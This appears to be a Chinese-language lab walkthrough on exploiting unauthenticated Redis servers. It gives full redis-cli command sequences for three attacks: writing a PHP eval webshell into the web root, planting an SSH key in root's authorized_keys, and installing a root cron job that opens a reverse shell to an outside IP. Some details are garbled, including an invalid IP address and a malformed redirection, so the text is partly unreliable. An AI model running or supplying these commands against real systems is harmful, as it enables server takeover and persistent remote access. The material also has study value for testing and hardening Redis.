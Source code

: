 ```
http://target.yijinglab.com:56031
```

### 未授权漏洞利用方法
- 通过redis数据备份功能结合Web服务, 向网站根目录写入木马, 获取权限
- 通过redis数据备份功能写定时任务, 通过定时任务反弹shell
- 通过redis数据备份共呢个写SSH公钥, 实现免密登录linux服务器

#### 写Webshell
- 条件
	1. 知道网站根目录绝对路径
	2. 对目标网站根目录有写入权限
通过目录扫描发现文件, 在URL使用构造路径引用文件, 显示报错内容, 可能含有路径信息
- 写webshell: 重置redis根路径到web服务根目录, 使用写入备份功能植入木马
```shell
redis-cli -h 122.114.225.148 -p 6379
config set dir /var/www/html
config set dbfilename shell.php
set x "<?php @eval($_POST['cmd']);?>"
save
```

#### 写SSH公钥
```shell
# 生成ssh密钥, 默认在Home目录下.ssh文件夹中
ssh-keygen -t rsa

# 将公钥内容写入临时文件
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n")>/tmp/foo.txt

# 作为值写入redis, 键m
cat /tmp/foo.txt | redis-cli -h 122.114.225.148 -p 6379 -x set m

# 将刚才写入的键保存为文件
redis-cli -h 112.114.225.148 -p 6379
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save

# getshell
ssh root@112.114.335.148 -p 2222 -i ~/.ssh/id_rsa
```

#### 写定时任务反弹shell
https://www.matools.com/cron 生成定时任务表达式
```shell
# 连接
redis-cli -h 122.114.225.148 -p 6379
# 设置定时任务的路径和文件名
config set dir /var/spool/cron
config set dbfilename root
# 设定一分钟后的任务, 反弹shell
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.71.45.28/4433 0>$1\n\n"
# 保存至文件
save
```
